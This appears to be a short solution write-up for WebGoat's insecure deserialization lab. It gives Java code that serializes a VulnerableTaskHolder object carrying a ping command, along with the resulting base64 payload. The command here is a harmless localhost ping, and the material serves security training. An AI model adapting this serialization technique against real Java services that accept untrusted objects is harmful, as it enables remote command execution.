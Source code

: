 # (A8) Insecure Deserialization

## Lesson 5
WebGoat project contains a vulnerable class `VulnerableTaskHolder.java`. This is how
you construct your payload:
```
var byteStream = new ByteArrayOutputStream();
var objectStream = new ObjectOutputStream(byteStream);
objectStream.writeObject(new VulnerableTaskHolder("myTask", "ping 127.0.0.1 -n 6"));
String payload = Base64.getEncoder().encodeToString(byteStream.toByteArray());
System.out.println(payload);
```

The payload (for Windows) is:
```
rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfkBAUKMA0bu3KYeHQAE3BpbmcgMTI3LjAuMC4xIC1uIDZ0AAZteVRhc2s=
```